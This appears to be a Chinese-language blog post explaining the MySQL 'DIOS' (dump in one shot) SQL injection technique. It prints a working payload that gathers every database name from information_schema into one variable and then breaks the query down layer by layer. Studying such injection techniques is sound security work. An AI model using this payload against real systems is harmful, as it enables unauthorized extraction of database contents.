 在https://mp.weixin.qq.com/s/84se5CxYlVT05bcw654wKg 这篇文章中首次看到的DIOS，感觉好像很厉害的样子，遂去网上开始找资料

先说结论（个人理解）：不是什么新的SQL注入漏洞利用方式，只是一种“在一条语句中提取全部数据的方便的”提取方式

一次性返回所有数据库的名称：  
```
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))))a);
```
![image](./0.png)  
解释：  
首先需要知道3个事：  
1、@a是sql中的变量，涉及到它的表达式需要用括号扩上  
2、:=是sql中的赋值符号  
3、sql中的函数concat有一个特性，如果参数中有一个为NULL，那么结果为NULL，所以需要先执行select(@a:=0x00)  
从最内层开始解释：  
```
(@a:=concat(@a,schema_name,'<br>'))
```
连接这3个参数的值  
倒数第二层的解释，此时语句变成了：  
```
(select (@a) from ( information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>')) )
```
通常的where in用法形如：select x from y where x in (1,2,3)从表y中选择字段x，然后x的值范围是（1,2,3）  
但是此条语句并不是通常的where in用法，而是将information_schema.schemata中schema_name的值依次添加到变量@a中  
倒数第三层的解释，此时语句变成了：  
```
(select (@a) from (select(@a:=0x00),expr1)a);
```
再进一步简化一下：  
```
(select (@a) from (expr2)a);
```
此条语句即表示：选择@a的值  
此时查看@a的值如下  
![image](./1.png)  
此时
```
(select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))));
```
的值如下  
![image](./2.png)  
